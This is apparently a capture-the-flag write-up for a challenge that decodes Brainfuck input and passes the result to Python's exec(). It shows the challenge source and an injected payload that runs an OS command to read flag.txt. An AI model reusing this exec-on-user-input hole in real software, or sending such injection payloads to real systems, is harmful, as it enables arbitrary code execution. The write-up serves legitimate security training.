 <img width="502" height="414" alt="image" src="https://github.com/user-attachments/assets/cb784ac1-1d24-4d1d-a065-7726e585fbd0" />  

Download and open source code, we can see:  

```python
#!/usr/bin/env python3
import sys

def bf(code):
    output = ""
    s = []
    matches = {}
    tape = [0] * 1000000
    for i, j in enumerate(code):
        if j == "[":
            s.append(i)
        if j == "]":
            m = s.pop()
            matches[m] = i
            matches[i] = m
    cp = 0
    p = 0
    while cp < len(code):
        if code[cp] == "+":
            tape[p] = (tape[p] + 1) % 256
        if code[cp] == "-":
            tape[p] = (tape[p] - 1) % 256
        if code[cp] == ",":
            c = sys.stdin.read(1)
            tape[p] = (ord(c) if c else 0) % 256
        if code[cp] == ".":
            output += chr(tape[p])
        if code[cp] == "<":
            p -= 1
        if code[cp] == ">":
            p += 1
        if code[cp] == "[":
            if not tape[p]:
                cp = matches[cp]
        if code[cp] == "]":
            if tape[p]:
                cp = matches[cp]
        cp += 1
    return output

if __name__ == "__main__":
    code = input("> ")
    if len(code) > 200:
        print("200 chars max")
        sys.exit(0)
    if not all(c in set("+-<>[],.") for c in code):
        print("nope")
        exit(0)
    code = bf(code)
    exec(code)

```

Input only accept characters like: `+-<>[],.`.  
After searching, i found out it's Brainfuck Program Language.  
Using [this](https://www.dcode.fr/brainfuck-language) to encode my payload:  
```python
__import__('os').system('cat flag.txt')
```
Load it into netcat server and have the flag.  
Peace!

